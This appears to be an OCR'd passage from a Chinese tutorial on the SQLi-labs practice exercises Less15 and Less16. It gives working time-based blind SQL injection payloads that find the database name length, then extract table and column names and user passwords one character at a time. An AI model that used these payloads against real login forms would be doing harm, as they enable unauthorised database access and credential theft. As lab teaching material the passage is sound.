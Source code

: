 
---


---


## 时间盲注：

> 
<h3>2.3、第二步：猜数据库名长度</h3>

admin' and if(length(database())&gt;7, sleep(5),0)#
判断正确，转了5s

admin' and if(length(database())&gt;8, sleep(5),0)#
判断错误，未转

 
 所以当前数据库名称长度为：8


> 
<h3>2.4、基本操作</h3>
暴库
admin' and if(ascii(substr(database(),1,1))&gt;100, 0, sleep(5))#
<hr/>
暴表
admin' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))&gt;100, 0, sleep(5))#
<hr/>
暴字段
admin' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&gt;100, 0, sleep(5))#
<hr/>
暴数据
admin' and if(ascii(substr((select password from security.users limit 0,1),1,1))&gt;100, 0, sleep(5))#


---


---


## 三、Less16（POST-Blind -Boolian/Time Based - Double Quotes）

> 
<h3>2.1、简介：（布尔/时间盲注-双引号-反括号）</h3>
请求方法：POST
方法：布尔/时间盲注


> 
 方法和Less15一样

